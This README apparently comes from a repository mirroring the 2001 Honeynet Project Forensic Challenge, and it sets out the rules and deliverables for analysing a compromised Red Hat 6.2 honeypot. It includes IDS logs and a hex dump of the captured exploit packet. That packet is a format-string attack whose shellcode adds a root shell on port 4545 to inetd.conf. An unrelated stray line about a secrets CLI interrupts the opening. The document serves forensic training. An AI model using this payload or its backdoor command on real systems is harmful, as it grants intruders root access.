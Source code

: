 .. image:: images/page_titles_for_challenge.jpg

===================================
Honeynet Project Forensic Challenge
===================================

This repository mirrors and repackages the original data and analyses
from the Honeynet Project `Forensic Challenge`_.  The original web site
can be found at 
Python CLI for managing secrets (passwords, API keys, etc)

Directories and files
~~~~~~~~~~~~~~~~~~~~~

You can find BZ2 compressed partition images in the ``partition-images/``
directory.

Results from the reference analysis by David Dittrich for the Honeynet
Project and all 13 contestants are found in the ``results/`` directory.

The file ``timestamp.txt`` is the original timestamped file with
MD5 hashes of the original images, for "chain of custody" style
integrity validation.  As the new files are now compressed with
a different algorithm, the old ``.gz`` MD5 hashes are useless,
but the uncompressed files should still hash the same.

The Forensic Challenge
----------------------

The Honeynet Project's **Forensic Challenge** was launched on January 15, 2001.
This page links to all the information we've assembled about the Challenge.
This index will help you quickly get to what you want.

-  Introduction_
-  `The Challenge`_
-  `The Rules`_
-  `Partition images <partition-images/>`__
-  `Frequently Asked Questions about the Challenge <faq/>`__
-  `Results of the Challenge <results/>`__

.. _intro:

Introduction
~~~~~~~~~~~~

Every day, incident handlers across the globe are faced with compromised
systems, running some set of unknown programs, providing some kind of
unintended service to an intruder who has taken control of someone else's --
YOUR, or your client's, or customer's -- computers. To most, the response is a
matter of "get it back online ASAP and be done with it." This usually leads to
an inadequate and ineffective response, not even knowing what hit you, with a
high probability of repeated compromise.

On the law enforcement side, they are hampered by a flood of incidents and a
lack of good data. A victim trying to keep a system running or doing a
"quickie" job of cleanup usually means incidents are underreported and
inadequate handling of the evidence leads to no evidence, or tainted evidence.
There has to be a better way to meet the needs of incident handlers and system
administrators, as well as law enforcement, if Internet crime is going to be
managed and not run amok. One possible answer is effective forensic analysis
skills -- widespread knowledge of tools and techniques -- to preserve data,
analyze it, and produce meaningful reports and damage estimates to your
organization's management, to other incident response teams and system
administrators, and to law enforcement.

Enter the Honeynet Project. One of the primary goals of the Honeynet Project is
to find order in chaos by letting the attackers do their thing, and allowing
the defenders to learn from the experience and improve. The latest challenge,
inspired by the Honeynet Project's founder Lance Spitzner, is the Forensic
Challenge. Only this time, we're opening it up to anyone who wants to join in.

The Challenge
~~~~~~~~~~~~~

The Forensic Challenge is an effort to allow incident handlers around the world
to all look at the same data -- an image reproduction of the same compromised
system -- and to see who can dig the most out of that system and communicate
what they've found in a concise manner. This is a nonscientific study of tools,
techniques, and procedures applied to postcompromise incident handling. The
challenge is to have fun, to solve a common real world problem, and for
everyone to learn from the process. If what I've said already isn't enough to
get you interested, Foundstone is generously offering copies of their extremely
popular "Hacking Exposed" (Second Edition) book for the 20 best submissions.

To get you started, here are the basic facts about the compromise:

-  The system was running a default Red Hat Linux 6.2 Server
   installation.
-  The system's time zone was set to GMT-0600 (CST).
-  The following was noted and logged by the Project's IDS of
   choice, `snort <http://www.snort.org>`__.

::

   Nov 7 23:11:06 lisa snort[1260]:
   RPC Info Query: 216.216.74.2:963 -> 172.16.1.107:111

   Nov 7 23:11:31 lisa snort[1260]:
   spp_portscan: portscan status from 216.216.74.2: 2 connections across 1 hosts: TCP(2), UDP(0)

   Nov 7 23:11:31 lisa snort[1260]:
   IDS08 - TELNET - daemon-active: 172.16.1.101:23 -> 216.216.74.2:1209

   Nov 7 23:11:34 lisa snort[1260]:
   IDS08 - TELNET - daemon-active: 172.16.1.101:23 -> 216.216.74.2:1210

   Nov 7 23:11:47 lisa snort[1260]:
   spp_portscan: portscan status from 216.216.74.2: 2 connections across 2 hosts: TCP(2), UDP(0)

   Nov 7 23:11:51 lisa snort[1260]:
   IDS15 - RPC - portmap-request-status: 216.216.74.2:709 -> 172.16.1.107:111

   Nov 7 23:11:51 lisa snort[1260]:
   IDS362 - MISC - Shellcode X86 NOPS-UDP: 216.216.74.2:710 -> 172.16.1.107:871

::

   11/07-23:11:50.870124 216.216.74.2:710 -> 172.16.1.107:871
   UDP TTL:42 TOS:0x0 ID:16143
   Len: 456
   3E D1 BA B6 00 00 00 00 00 00 00 02 00 01 86 B8  >...............
   00 00 00 01 00 00 00 02 00 00 00 00 00 00 00 00  ................
   00 00 00 00 00 00 00 00 00 00 01 67 04 F7 FF BF  ...........g....
   04 F7 FF BF 05 F7 FF BF 05 F7 FF BF 06 F7 FF BF  ................
   06 F7 FF BF 07 F7 FF BF 07 F7 FF BF 25 30 38 78  ............%08x
   20 25 30 38 78 20 25 30 38 78 20 25 30 38 78 20   %08x %08x %08x
   25 30 38 78 20 25 30 38 78 20 25 30 38 78 20 25  %08x %08x %08x %
   30 38 78 20 25 30 38 78 20 25 30 38 78 20 25 30  08x %08x %08x %0
   38 78 20 25 30 38 78 20 25 30 38 78 20 25 30 38  8x %08x %08x %08
   78 20 25 30 32 34 32 78 25 6E 25 30 35 35 78 25  x %0242x%n%055x%
   6E 25 30 31 32 78 25 6E 25 30 31 39 32 78 25 6E  n%012x%n%0192x%n
   90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90  ................
   90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90  ................
   90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90  ................
   90 90 EB 4B 5E 89 76 AC 83 EE 20 8D 5E 28 83 C6  ...K^.v... .^(..
   20 89 5E B0 83 EE 20 8D 5E 2E 83 C6 20 83 C3 20   .^... .^...  ..
   83 EB 23 89 5E B4 31 C0 83 EE 20 88 46 27 88 46  ..#.^.1... .F'.F
   2A 83 C6 20 88 46 AB 89 46 B8 B0 2B 2C 20 89 F3  *.. .F..F..+, ..
   8D 4E AC 8D 56 B8 CD 80 31 DB 89 D8 40 CD 80 E8  .N..V...1...@...
   B0 FF FF FF 2F 62 69 6E 2F 73 68 20 2D 63 20 65  ..../bin/sh -c e
   63 68 6F 20 34 35 34 35 20 73 74 72 65 61 6D 20  cho 4545 stream
   74 63 70 20 6E 6F 77 61 69 74 20 72 6F 6F 74 20  tcp nowait root
   2F 62 69 6E 2F 73 68 20 73 68 20 2D 69 20 3E 3E  /bin/sh sh -i >>
   20 2F 65 74 63 2F 69 6E 65 74 64 2E 63 6F 6E 66   /etc/inetd.conf
   3B 6B 69 6C 6C 61 6C 6C 20 2D 48 55 50 20 69 6E  ;killall -HUP in
   65 74 64 00 00 00 00 09 6C 6F 63 61 6C 68 6F 73  etd.....localhos
   74 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00  t...............
   00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00  ................

A bit-image copy of the active partitions was obtained, as detailed here:

::

   /dev/hda8       /
   /dev/hda1       /boot
   /dev/hda6       /home
   /dev/hda5       /usr
   /dev/hda7       /var
   /dev/hda9       swap

MD5 Checksums (both uncompressed and GNU gzip compressed):

::

   a1dd64dea2ed889e61f19bab154673ab  honeypot.hda1.dd
   c1e1b0dc502173ff5609244e3ce8646b  honeypot.hda5.dd
   4a20a173a82eb76546a7806ebf8a78a6  honeypot.hda6.dd
   1b672df23d3af577975809ad4f08c49d  honeypot.hda7.dd
   8f244a87b8d38d06603396810a91c43b  honeypot.hda8.dd
   b763a14d2c724e23ebb5354a27624f5f  honeypot.hda9.dd

   f8e5cdb6f1109035807af1e141edd76d  honeypot.hda1.dd.gz
   6ef29886be0d9140ff325fe463fce301  honeypot.hda5.dd.gz
   8eb98a676dbffad563896a9b1e99a95f  honeypot.hda6.dd.gz
   be215f3e8c2602695229d4c7810b9798  honeypot.hda7.dd.gz
   b4ff10d5fd1b889a6237fa9c2979ce77  honeypot.hda8.dd.gz
   9eed26448c881b53325a597eed8685ea  honeypot.hda9.dd.gz

Please be aware that these are new images. This is **not** a system that the
Honeynet Project has previously written about or discussed publically. (I.e.,
you won't get any hints from previous Honeynet papers.) The images were edited
to anonymize the system. Only the hostname was modified. Everyone is using the
same data, so any anomalies caused by this editing will be identical.

The image files can be mounted on Linux systems using the loopback interface
like this:

::

    # mkdir /t
    # mount -o ro,loop,nodev,noexec honeypot.hda8.dd /t
    # mount -o ro,loop,nodev,noexec honeypot.hda1.dd /t/boot
    [ etc... ]

Its now your job -- should you choose to accept it! -- to figure out the Who,
What, Where, When, How, and maybe even the Why of this compromise. We don't
expect that everyone undertaking the challenge can or will address all of the
following items, but the list below of questions and deliverables is provided
as a guideline for what to produce and what to focus on:

#. Identify the intrusion method, its date, and time. (Assume the clock on
   the IDS was synchronized with an NTP reference time source.)

#. Identify as much as possible about the intruder(s).

#. List all the files that were added/modified by the intruder.  Provide
   an analysis of these programs (including decompilation or disassembly
   where necessary to determine their function and role in the incident.)

#. Was there a sniffer or password harvesting program installed?
   If so, where and what files are associated with it?

#. Was there a "rootkit" or other post-concealment trojan horse programs
   installed on the system? If so, what operating system programs were
   replaced and how could you get around them? Hint: If you don't know
   what a "rootkit" is, read this:
   `http://staff.washington.edu/dittrich/misc/faqs/rootkits.faq
   <https://staff.washington.edu/dittrich/misc/faqs/rootkits.faq>`__

#. What is publicly known about the source of any programs found on the
   system? (e.g., their authors, where source code can be found, what
   exploits or advisories exist about them, etc.)

#. Build a time line of events and provide a detailed analysis of activity
   on the system, noting sources of supporting or confirming evidence
   (elsewhere on the system or compared with a known "clean" system of
   similar configuration.)

#. Provide a report suitable for management or news media (general aspects
   of the intrusion without specific identifying data).

#. Provide an advisory for use within the home organization (a fictitious
   university, "honeyp.edu", in this case, where I hold an honorary Doctorate,
   by the way) to explain the key aspects of the vulnerability exploited,
   how to detect and defend against this vulnerability, and how to
   determine whether or not other systems were similarly compromised.

#. Produce a cost-estimate for this incident using the following guidelines
   and method: 

   `http://staff.washington.edu/dittrich/misc/faqs/incidentcosts.faq
   <https://staff.washington.edu/dittrich/misc/faqs/incidentcosts.faq>`__

   To simplify and to normalize the results, assume that your annual salary is
   $70,000 and that there are no user-related costs. (If you work as a team,
   break out hours by person, but all members should use the same annual
   salary. Please also include a brief description of each investigator's
   number of years of experience in the fields of system administration,
   programming, and security, just to help us compare the number of hours spent
   with other entrants).

To summarize (and standardize) the deliverables, please produce the following:

::

      File                   Contents
      -----------------------------------------------------------------------
      index.txt              Index of files/directories submitted (including
                             any not listed below.)

      timestamp.txt          Timestamp of MD5 checksums of all files listed
                             and submitted (dating when produced -- see
                             deadline information below.)

      costs.txt              Incident cost-estimate.

      evidence.txt           Time line and detailed (technical) analysis. (Use
                             an Appendix, and/or mark answers to questions
                             above with "[Q1]", etc.)

      summary.txt            Management and media (non-technical) summary.

      advisory.txt           Advisory for consumption by other system
                             administrators and incident handlers within your
                             organization.

      files.tar              Any other files produced during analysis and/or
                             excerpts (e.g., strings output or dissassembly
                             listings) from files on the compromised file
                             system, which are referenced in the previous files.

The Rules
~~~~~~~~~

-  You are free to use any tools or techniques that you choose, provided that
   the judges are able to readily interpret your results and duplicate or verify
   their accuracy using publicly available means (i.e., don't expect us all to
   have a copy of your favorite "Law Enforcement Only" or multi-hundred dollar
   commercial Windows-only tool). A good publicly available free
   forensic toolkit is `TASK <https://www.sleuthkit.org>`__ (made up of
   `Autopsy <https://www.sleuthkit.org/autopsy/download.php>`__ and
   `The Sleuth Kit <https://www.sleuthkit.org/sleuthkit/download.php>`__.
   These tools build on Dan Farmer and Wietse Venema's original `The
   Coroner's Toolkit (TCT)
   <http://www.porcupine.org/forensics/tct.html>`__. If you want
   examples of the use of TCT, or other tools/techniques, see the Forensics
   section of the following web page:

   `https://davedittrich.github.io/ <https://davedittrich.github.io/>`__

   No matter what tools/methods you choose, please make sure you explain them
   in your analysis and cite references to resources (e.g., RFCs, CERT or
   SANS "how to" documents) to help others learn by example. Don't forget:
   this is a Honeynet Project brainchild, so learning is what it's all about.
   And fun. It's all about learning and fun. Oh yeah, and security. Learning,
   fun, AND security. ;)

-  You may work as a team, but if your entry is selected as a Top 20, you'll
   have to fight over one copy of the book.

-  Deliver the results of the analysis in such a way that the judges can quickly
   and easily consume the information, and such that its authenticity, time of
   production, and integrity can be verified independently. (e.g., ISO 9660
   CD-ROM or ``.tar`` archive, with digital time stamps, and PGP signatures
   and/or MD5 checksums.) Please DO NOT SEND COPIES OF COMPLETE FILES FROM THE
   FILE SYSTEM. We already have a copy of the file system and its contents.
   Just note the path (e.g., "[See file /bin/foo]").

-  All submissions **MUST** be time stamped prior to 00:00 GMT on Monday,
   February 19, 2001 [**not** February 15 as the announcement email said], and
   delivery to the judges initiated later that same day. (This is to accommodate
   submissions on IS0 9660 format CD-ROM, which should be postmarked by this
   time. The digital time stamps and postmarks will be used to determine the
   20 "Hacking Exposed" book winners.) One free digital time stamping service
   you can use is `Stamper <http://www.itconsult.co.uk/stamper.htm>`__ .

-  The person who hacked the box is NOT eligible, nor are members of the
   Honeynet Project. Members of the companies employing Honeynet Project members
   are eligible (and encouraged!) to enter, but their entries (even if Top 20)
   will not receive copies of "Hacking Exposed." The books go to other entrants.

-  Entries must be written in English (UK and Aussie English accepted, but go
   light on the regional slang, please! I only have a copy of "*Best of Aussie
   Slang*," and the other judges don't live in Seattle.)

-  Only one entry per household, please. Must be sentient to enter. Sorry, no
   Ginsu Knives come with this offer!

Submissions will be judged by a panel of experts and winners selected and
announced on Monday, March 19, 2001. All decisions of the judges are final (no
recounts or legal challenges by teams of grossly overpaid lawyers will be
tolerated!).

After the winners are announced, all entries will be posted for the security
community to review. We hope that the community can better learn from and
improve from all the different techniques that different people and
organizations use.

Also, we wouldn't be the Honeynet Project if we didn't capture all of the
blackhat's keystrokes as he exploited, accessed, and modified the honeypot! We
will release the Honeypot Project's analysis of the hacked system, as well as
the blackhat's keystrokes, along with the results of the Challenge on March 19.

Good luck, and have fun!

Dave Dittrich

.. |spacer| image:: /images/spacer.gif
   :width: 200px
   :height: 100px
.. |Home| image:: /images/nav_00_home.gif
   :name: home
   :width: 129px
   :height: 28px
   :target: /index.html
.. |About the Project| image:: /images/nav_01_about.gif
   :name: about
   :width: 129px
   :height: 28px
   :target: /misc/project.html
.. |Challenges| image:: /images/nav_04_challenges.gif
   :name: challenges
   :width: 129px
   :height: 30px
   :target: /misc/chall.html
.. |Presentations| image:: /images/nav_05_presentations.gif
   :name: pres
   :width: 129px
   :height: 31px
   :target: /speaking/index.html
.. |Whitepapers| image:: /images/nav_06_whitepapers.gif
   :name: white
   :width: 129px
   :height: 30px
   :target: /papers/index.html
.. |Tools| image:: /images/nav_07_tools.gif
   :name: tools
   :width: 129px
   :height: 30px
   :target: /tools/index.html
.. |Our Book| image:: /images/nav_08_our_book.gif
   :name: book
   :width: 129px
   :height: 29px
   :target: /book/index.html
.. |Funding/Donations| image:: /images/nav_09_funding.gif
   :name: fund
   :width: 129px
   :height: 31px
   :target: /funds/index.html
.. |Status Reports| image:: /images/nav_status.gif
   :name: status
   :width: 129px
   :height: 31px
   :target: /status/index.html
.. |Mirrors| image:: /images/nav_10_mirrors.gif
   :name: mirrors
   :width: 129px
   :height: 28px
   :target: /misc/mirror.html
.. |spacer| image:: /images/spacer.gif
   :width: 19px
   :height: 5px
.. |spacer| image:: /images/spacer.gif
   :width: 5px
   :height: 50px
.. |The Forensic Challenge| image:: /images/page_titles_for_challenge.jpg
   :width: 350px
   :height: 36px
.. |spacer| image:: /images/spacer.gif
   :width: 1px
   :height: 3px
.. |Back to Top| image:: /images/back.gif
   :width: 82px
   :height: 20px
   :target: #top
Credits
---------

The original Honeynet Project `Forensic Challenge`_ web site
is http://old.honeynet.org/challenge/

.. _Forensic Challenge: http://old.honeynet.org/challenge/
